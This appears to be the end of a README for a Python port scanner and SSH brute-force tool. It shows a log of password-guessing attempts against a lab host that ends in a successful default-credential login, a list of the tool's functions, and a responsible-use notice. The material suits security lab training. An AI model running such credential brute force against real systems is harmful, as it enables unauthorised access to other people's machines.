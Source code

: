 ```
2025-01-15 12:02:46,345 - INFO - Connected (version 2.0, client OpenSSH_4.7p1)
2025-01-15 12:02:47,727 - INFO - Authentication (password) failed.
Failed SSH login with username: msfadmin and password: hi on 192.168.0.34:22
Attempting SSH login with username: msfadmin and password: admin on 192.168.0.34:22
2025-01-15 12:02:47,745 - INFO - Connected (version 2.0, client OpenSSH_4.7p1)
2025-01-15 12:02:50,196 - INFO - Authentication (password) failed.
Failed SSH login with username: msfadmin and password: admin on 192.168.0.34:22
Attempting SSH login with username: msfadmin and password: msfadmin on 192.168.0.34:22
2025-01-15 12:02:50,212 - INFO - Connected (version 2.0, client OpenSSH_4.7p1)
2025-01-15 12:02:50,342 - INFO - Authentication (password) successful!
Successful SSH login with username: msfadmin and password: msfadmin on 192.168.0.34:22

```
## Code Structure
- `display_logo()`: Displays the tool's logo.
- `scan_port(ip, port, timeout)`: Scans a single port and attempts banner grabbing.
- `port_scan(ip, start_port, end_port, timeout)`: Scans multiple ports concurrently.
- `load_credentials_from_file(filepath)`: Loads usernames or passwords from a file.
- `brute_force_ssh(ip, username_list, password_list, timeout)`: Performs SSH brute force using the provided credentials.

## Notes
- Use this tool responsibly and only on systems you are authorized to test.
- Ensure compliance with applicable laws and ethical guidelines.
